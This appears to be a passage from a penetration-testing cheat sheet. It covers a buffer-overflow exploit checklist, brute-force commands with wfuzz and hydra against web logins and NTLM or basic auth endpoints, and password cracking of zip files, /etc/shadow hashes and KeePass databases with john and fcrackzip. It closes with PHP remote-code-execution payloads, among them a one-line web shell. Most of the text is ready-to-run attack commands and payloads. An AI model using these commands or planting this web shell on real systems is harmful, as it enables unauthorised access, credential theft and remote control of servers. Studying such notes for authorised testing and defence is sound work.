 <a name="bof"></a><h3> BOF exploit-based </h3>

- change shellcode

- make sure all badchars are removed

- read the exploit properly in case this makes changes in the shellcode

- capture traffic with wireshark making sure the entire shellcode is transmited

- run the exploit several times

- make sure the JMP ESP matches OS and language


<a name="weakcreds"></a><h3> Weak Credentials </h3>


<a name="httpbrute"></a><b> HTTP Brute Force </b>

- wfuzz POST

```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

- hydra POST

```hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20```

- wfuzz NTLM

```wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api```

- wfuzz Basic Auth through Proxy

```wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/ActivosProduban/names.txt -z file,/root/Documents/Audits/ActivosProduban/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/```


<a name="passcrack"></a><b> Password Cracking </b>

- zip

`fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip `

- /etc/shadow

<pre>
unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
</pre>

- keepass 

<pre>
keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file
</pre>


<a name="rce"></a><h2> RCE </h2>

<a name="phprce"></a><h3>PHP RCE</h3>

test: 

```<?php phpinfo(); ?>```

simple shell: 

```<?php system($_GET["c"]); ?>```

```